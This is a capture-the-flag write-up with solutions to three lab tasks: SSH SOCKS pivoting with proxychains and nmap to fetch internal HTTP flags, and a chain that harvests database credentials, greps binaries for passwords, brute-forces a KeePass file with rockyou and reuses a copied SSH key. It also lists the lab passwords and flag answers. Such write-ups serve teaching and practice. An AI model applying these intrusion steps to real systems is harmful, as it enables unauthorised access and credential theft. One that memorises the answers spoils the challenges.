

### SSH forward
#### The condition of a given task:
<code>Подключиться по ssh с учетными данными user:SuperPassword.
Флаг где-то совсем рядом в сети по HTTP протоколу, только как его прочесть?
В данном задании 2 флага. Первый – текстовый, а второй в картинке /flag.png</code>

 
#### Solution:
VPN On
First we will **create a proxy** to scan hosts through nmap
`ssh -D 9050 user@10.10.10.10 -p <port>`
look at __/etc/hosts__ and see two IP addresses, scan everything in between.
`cat /etc/hosts `
scanning hosts via proxy socket
`proxychains nmap -T4 -v 172.17.95.122-131`
and take the flag.
`proxychains curl 172.17.95.130`
 

Answer is: ***d9bb871cfae00ecf06bf5969eaf057aad94a066617368529457dd196e8803dee2fd6564acdce55da2000b6335e68da64***

***

### SSH forward 2
#### The condition of a given task:
<code>Подключиться по ssh с учетными данными user:SuperPassword.
Флаг где-то совсем рядом в сети по HTTP протоколу, только как его прочесть?
В данном задании 2 флага. Первый – текстовый, а второй в картинке /flag.png
Введите тот, который в картинке</code>

#### Solution:
VPN On
First we will **create a proxy** to scan hosts through nmap
`ssh -D 9050 user@10.10.10.10 -p <port>`
look at __/etc/hosts__ and see two IP addresses, scan everything in between.
**172.17.95.170   f98e07ca447a
172.17.95.178   f98e07ca447a**
`cat /etc/hosts `
scanning hosts via proxy socket
`proxychains nmap -T4 -v 172.17.95.170-178`
and take the flag.
`proxychains wget 172.17.95.171/flag.png`


Answer is: ***flag{top_secret_internal_network_page}***

***

### Степной волк
#### The condition of a given task:
<code>Задание было исправлено.
Флаг у user4 .
ssh: www-data:www-data</code>

#### Solution:
First we get the `password for user1 from mysql`, whose credentials are in `/var/www/html/index.php`

```
mysql --host=mysql --user=mysql --password=MysqlP4ss
USE passwords;
SELECT * FROM passwords;
```

logged in as user1 and see that there are **notes** in __.bash_history__, look at them and see that the **beginning of user2's password is AP4ss**.

Let's **search for the AP4ss string in the FS** via, for example, `find /bin -type f -exec grep -H 'AP4ss' {} \{}; 2>/dev/null`
and see the full password in the __/bin/scope__ file

Logging in as user2 we see __db.kdbx__

execute the following __chain of command__:
* `scp -P <port> user2@10.10.10.10:/home/user2/db.kdbx db.kdbx `
* `apt install keepassxc`
* `wget https://raw.githubusercontent.com/r3nt0n/keepass4brute/master/keepass4brute.sh && chmod +x keepass4brute.sh`
* `wget https://raw.githubusercontent.com/praetorian-inc/Hob0Rules/master/wordlists/rockyou.txt.gz && gzip -d rockyou.txt.gz`
* `./keepass4brute.sh db.kdbx rockyou.txt`
and get the password from user3:**S0m3thin61N51d3**

user3 has a _.ssh_ directory with **id_rsa**, which we copy to our host machine and after __setting permissions to 600__ connect via ssh as user4. 
`chmod 600 is_rsa && ssh -i id_rsa user4@10.10.10.10 -p <port>`
and take our flag!
`cat flag.txt`


Credentials:
- **user:user**
- **www-data:www-data**
- **user1:Str0ngP4ss4Us3r0n3**
- **user2:AP4ssThatN3v3rD13s**
- **user3:S0m3thin61N51d3**

Answer is: ***e2625ee4bbd8f808ef00464a8cd050f4c41057f0efbe4f23f1aff819604ba85687594f7f2d4fe55335808a5b3323bfcf***

***